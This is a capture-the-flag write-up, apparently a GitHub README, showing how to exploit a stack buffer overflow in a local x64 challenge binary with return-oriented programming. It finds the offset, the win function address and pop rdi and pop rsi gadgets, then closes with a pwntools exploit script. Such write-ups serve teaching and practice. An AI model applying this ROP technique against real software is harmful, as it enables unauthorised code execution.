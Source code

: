 So, in order to **call** a function with one **argument** in x64, the payload would be structured this way:  
**padding + pop_rdi_ret address + arg1 + target_function address**

### Detailed Solution
-Since we need to pass **2 arguments** to our win function to get the flag, we'll be using **RDI** & **RSI** registers, and for that we need to find 2 appropriate gadgets.  
-There are **3 steps** we must go through to finalize our payload: Finding the **offset**, **win** function address, and the addresses of our **gadgets**. 

### 1. Finding the offset:
-The size of our buffer is **64** bytes, and we have **8** bytes for **RBP**, so the offset should be **72** unless there are more things between the buffer and rbp, which we'll assume to not be for now
(I'm just too lazy to calculate the offset manually xD).  
### 2. Finding win’s address: <br>
-We can simply use **nm** on our binary and then grep the address:  
  <img width="323" height="54" alt="image" src="https://github.com/user-attachments/assets/d1a09b77-4772-4ed1-b2fc-c45f39d090a5" /> <br>

-We got our address: **0x0000000000401881**.  
-Note that we used "**-w**" with grep, which tells it to match whole words only, otherwise results of word that contain "win" would be included like "rewind", "unwind", etc.

### 3. Finding our two gadgets’ addresses:
-We'll be using **Ropper** for that (you can use **ROPgadget** as well, but I personally find Ropper more practical):  <br>
  <img width="777" height="386" alt="image" src="https://github.com/user-attachments/assets/d9e44446-4bd4-4485-8c3d-d38d6dbb2b50" /> <br>
  <img width="574" height="405" alt="image" src="https://github.com/user-attachments/assets/e700f4a3-620e-4c73-9a89-0488d437c03e" /> <br>

-Oops, there are a looot of gadgets, that won't help us :")).  
-Since we know exactly what are the 2 gadgets we're looking for (**pop rdi; ret;** and **pop rsi; ret;**), let's search for them specifically:  

  <img width="505" height="189" alt="image" src="https://github.com/user-attachments/assets/6b8c289d-df3d-4c46-b239-fbc14434af0b" /> <br>
  <img width="508" height="185" alt="image" src="https://github.com/user-attachments/assets/96457f35-284d-4992-81f2-248b59a6af91" /> <br>

-Here we go, we got our addresses:  
**pop rdi:** 0x00000000004020f8  
**pop rsi:** 0x0000000000408c90

### Final payload:

-Here's a simple script that crafts our payload and sends it to our binary to retrieve the flag:
```python
from pwn import *

p = process("./chall")

rdi = p64(0x00000000004020f8)

rsi = p64(0x0000000000408c90)

win = p64(0x0000000000401881)

arg1 = p64(0xcafebabe)

arg2 = p64(0xcafed00d)

payload = 72 * b"A" + rdi + arg1 + rsi + arg2 + win 

p.sendline(payload)
```